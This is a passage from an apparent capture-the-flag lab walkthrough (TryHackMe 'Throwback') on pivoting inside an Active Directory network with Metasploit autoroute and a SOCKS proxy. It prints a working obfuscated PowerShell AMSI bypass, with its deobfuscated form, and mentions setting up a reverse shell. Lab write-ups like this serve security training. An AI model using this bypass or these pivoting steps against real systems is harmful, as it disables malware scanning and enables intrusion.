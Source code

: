 ```
THROWBACK-TIME.throwback.local : 10.200.154.176
THROWBACK-DC01.throwback.local : 10.200.154.117
```
let's edit our hosts file
```bash
echo "10.200.154.176  timekeep.throwback.local" >> /etc/hosts
```



### 7. Pivot using ThrowBack-PROD session

We will use the autoroute module from Metasploit Framework. We need a meterpreter session.

1. Pause Amsi.
2. create a reverse shell as we did before for mail phishing.
3. start the listener on msfconsole.

Pausing Amsi.

```bash
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."AssEmbly"."GETTYPe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."getfiElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sETVaLUE"( ${nULl},${tRuE} )
```

The past command is :`[Ref].Assembly.GetType(‘System.Management.Automation.AmsiUtils’).GetField(‘amsiInitFailed’,’NonPublic,Static’).SetValue($null,$true)`

After getting the reverse shell.

![autoroute_prod](/assets/img/tryhackme/throwback/autoroute_prod.png)

then we will use socks_server module  and run it.
